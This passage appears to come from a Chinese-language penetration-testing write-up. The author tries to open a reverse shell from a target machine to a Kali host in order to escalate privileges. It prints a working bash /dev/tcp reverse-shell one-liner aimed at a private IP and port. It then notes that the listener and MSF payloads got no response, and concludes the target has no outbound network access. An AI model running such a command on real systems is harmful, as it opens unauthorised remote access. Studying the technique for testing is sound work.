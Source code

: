 尝试反弹 shell 到 Kali 上再进行提权：

```bash
bash -c 'exec bash -i >& /dev/tcp/192.168.1.128/8888 0>&1'
```

[![](assets/1708094050-9e8e1527bb72969438df56195785ce00.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144329-ee8b727e-0ffe-1.png)

Kali 进行监听，但是最后没有反应

[![](assets/1708094050-1e9248d1cd9be7b8d421e3e1d73dde9d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144352-fc38f7c0-0ffe-1.png)  
尝试 MSF 的 tcp、http 均不行，故判断为不出网。

[![](assets/1708094050-a8475406edfb9196a6fae3d25ff7cf45.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621144409-06499328-0fff-1.png)
